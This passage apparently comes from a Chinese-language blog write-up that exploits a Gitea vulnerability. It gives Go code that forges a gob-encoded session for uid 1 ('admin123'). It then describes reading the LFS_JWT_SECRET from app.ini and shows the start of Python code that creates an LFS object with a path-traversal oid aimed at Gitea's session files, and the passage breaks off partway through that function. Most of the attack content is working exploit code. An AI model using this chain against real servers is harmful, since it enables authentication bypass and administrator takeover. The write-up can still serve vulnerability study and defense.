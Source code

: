 ```go
package main

import (
	"encoding/gob"
	"encoding/hex"
	"fmt"
	"bytes"
)

func EncodeGob(obj map[interface{}]interface{}) ([]byte, error) {
	for _, v := range obj {
		gob.Register(v)
	}
	buf := bytes.NewBuffer(nil)
	err := gob.NewEncoder(buf).Encode(obj)
	return buf.Bytes(), err
}

func main() {
	//var uid = 1
	//uname := "admin123"
	obj := map[interface{}]interface{}{"_old_iod": "1", "uid": 1, "uname": "admin123"}
	buf, err := EncodeGob(obj)
	if err != nil {
		fmt.Println(err)
	}
	fmt.Println(buf)
	encode_data := hex.EncodeToString(buf)
	fmt.Println(encode_data)
}
```

运行之后生成一个hex序列

![1531898708274](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/1531898708274.png)

这段序列里就包含了session信息，包括 `_old_iod` `uid` `uname`，然后我们可以利用这个伪造的`session`成功登录



### 0x06 漏洞利用

##### 1. 读取`app.ini`，获得`LFS_JWT_SECRET`

![1531882119588](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/1531882119588.png)

##### 2. 针对`session`文件名创建`LFS`对象

```python
def create_lfs_object(session):
    oid = '....gitea/sessions/1/1/11session'
    data = {
        "Oid": oid,
        "Size": 1000,
        "User": "a",
        "Password": "a",
        "Repo": "a",
        "Authorization": "a"
    }

    url = '%s.git/info/lfs/objects' % (GIT_URL)
    response = session.post(
        url,
        json=data,
        headers={
```
